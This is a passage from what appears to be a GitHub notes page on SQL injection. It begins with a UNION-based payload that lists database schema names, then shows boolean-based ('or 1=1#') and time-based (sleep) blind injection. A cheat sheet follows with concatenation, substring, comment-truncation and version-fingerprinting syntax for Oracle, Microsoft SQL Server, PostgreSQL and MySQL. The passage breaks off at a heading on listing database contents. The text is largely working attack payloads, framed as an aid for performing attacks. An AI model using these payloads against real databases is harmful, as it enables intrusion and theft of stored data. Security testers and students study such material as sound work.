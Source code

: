 ``` 1'union+select+null,schema_name,null+FROM+INFORMATION_SCHEMA.SCHEMATA# ```    change the comment based on database to # or -- or /* **and** number of **null** values <br/>
# 2. Blind or inferential sql injection<br/>

1.Boolean based<br/>
true or false condition based<br/>
'or 1=1#<br/>
2.delay based or time based<br/>
select sleep(5)<br/>
<br/><br/>

# cheat sheet commands <br/>
This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.<br/>
<br/><br/>
**String concatenation**<br/>
You can concatenate together multiple strings to make a single string.<br/>
<br/>
Oracle	'foo'||'bar'<br/>
Microsoft	'foo'+'bar' <br/>
PostgreSQL	'foo'||'bar'<br/>
MySQL	'foo' 'bar' [Note the space between the two strings]<br/>
CONCAT('foo','bar')<br/>

<br/><br/>

**Substring**<br/>
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.<br/>
<br/>
Oracle	SUBSTR('foobar', 4, 2)<br/>
Microsoft	SUBSTRING('foobar', 4, 2)<br/>
PostgreSQL	SUBSTRING('foobar', 4, 2)<br/>
MySQL	SUBSTRING('foobar', 4, 2)<br/>

<br/><br/>
**Comments**<br/>
You can use comments to truncate a query and remove the portion of the original query that follows your input.<br/>
<br/>
Oracle	--comment<br/>
Microsoft	--comment<br/>
/*comment*/<br/>
PostgreSQL	--comment<br/>
/*comment*/<br/>
MySQL	#comment<br/>
-- comment [Note the space after the double dash]<br/>
/*comment*/<br/>
<br/><br/>

**Database version**<br/>
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.<br/>
<br/>
Oracle	SELECT banner FROM v$version<br/>
SELECT version FROM v$instance<br/>
Microsoft	SELECT @@version<br/>
PostgreSQL	SELECT version()<br/>
MySQL	SELECT @@version<br/>

<br/><br/>

**Database contents**<br/>
You can list the tables that exist in the database, and the columns that those tables contain.<br/>
<br/>
```